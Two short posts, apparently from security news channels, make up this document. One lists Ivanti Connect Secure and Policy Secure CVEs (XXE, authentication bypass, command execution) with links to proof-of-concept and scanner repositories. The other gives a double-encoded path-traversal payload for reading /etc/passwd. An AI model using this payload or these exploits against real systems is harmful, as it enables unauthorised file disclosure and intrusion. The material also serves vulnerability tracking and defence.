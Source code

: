 
# freedomf0x
`2024-02-10`

<blockquote>
&#35;CVE-2024-22024 : &#35;Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x &amp; ZTA Gateways 22.6R1.3 'SAML Component' - Unauthenticated XML External Entity (XXE) 

&#35;POC N/A : https://github.com/0dteam/CVE-2024-22024

CVE-2023-46805 : Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x 'Web Component' - Authentication Bypass

SCAN : https://github.com/Chocapikk/CVE-2023-46805

CVE-2024-21887 : Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x 'Web Component' - (Authenticated Administrator) Arbitrary Command Execution

POC N/A : https://github.com/imhunterand/CVE-2024-21887

High Signal Detection and Exploitation of Ivanti's Pulse Connect Secure Auth Bypass &amp; &#35;RCE

Blog : https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/0dteam/CVE-2024-22024">
https://github.com/0dteam/CVE-2024-22024
</a>
<blockquote>
Check for CVE-2024-22024 vulnerability in Ivanti Connect Secure - 0dteam/CVE-2024-22024
</blockquote>
</td></tr></table>

---

# proxy_bar
`2024-02-09`

<blockquote>
LFI
*
Payload:  
&quot;.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/etc/passwd&quot;
</blockquote>
